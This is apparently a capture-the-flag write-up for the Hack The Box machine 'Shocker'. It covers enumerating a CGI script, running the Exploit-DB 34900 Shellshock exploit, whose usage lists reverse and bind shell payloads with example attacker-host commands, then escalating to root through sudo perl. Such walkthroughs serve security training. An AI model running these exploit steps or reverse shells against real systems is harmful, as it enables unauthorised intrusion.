








created : 23rd June 2021
comments : Needs formatting

# Shocker 
A Linux Box featuring the Shellshock vulnerability

## Enumeration
First we run nmap scan against the machine.


We can see that two ports are open 80 (http) and 2222 (SSH)

Since we have Apache running, let see how the site looks like


We now do directory enumeration

Above we can see that we found a directory `/cgi-bin/`  

Let's futher bruteforce it to see if we have any scripts in there.

We found a script `user.sh` in `/cgi-bin/` directory

Requesting this in burp


It seems like an output for a script, so we might have a shellshock vulnerability.

We run this by searchsploit.

Out of all the results, 34900 look good as it concerns with Apache mod_cgi, so we give it a try.

Lets  try it
```shell
┌──(kali㉿kali)-[~/htb/shocker]
└─$ locate 34900.py  
/usr/share/exploitdb/exploits/linux/remote/34900.py
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ cp /usr/share/exploitdb/exploits/linux/remote/34900.py .
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ vim 34900.py     
```

Here is the usage
```python
Usage:                                                                                                  
./exploit.py var=<value>                                                                                
                                                                                                        
Vars:                                                                                                   
rhost: victim host                                                                                      
rport: victim port for TCP shell binding                                                                
lhost: attacker host for TCP shell reversing                                                            
lport: attacker port for TCP shell reversing                                                            
pages:  specific cgi vulnerable pages (separated by comma)                                              
proxy: host:port proxy                                                                                  
                                                                                                        
Payloads:                                                                                               
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)                             
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)                                    
                                                                                                        
Example:                                                                                                
                                                                                                        
./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234                                     
./exploit.py payload=bind rhost=1.2.3.4 rport=1234    
 ```
 
 lets fire the script
 
 
 
 Now we have shell access, lets get the user flag
 ```shell
 10.10.10.56> cat user.txt
a4f237c30bbd60e6be8f2079bbbba8c2

// Also checked sudo commands
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

From above we can see that we can run `perl` as root. This is nice and will help in privelege escalation.

Now, we try to find a perl reverse shell. I found one at pentest monkey

Below is a failed attempt


Below i try with sudo precedding the full path of perl as mentioned in `sudo -l`


Now we have root. Cheers!

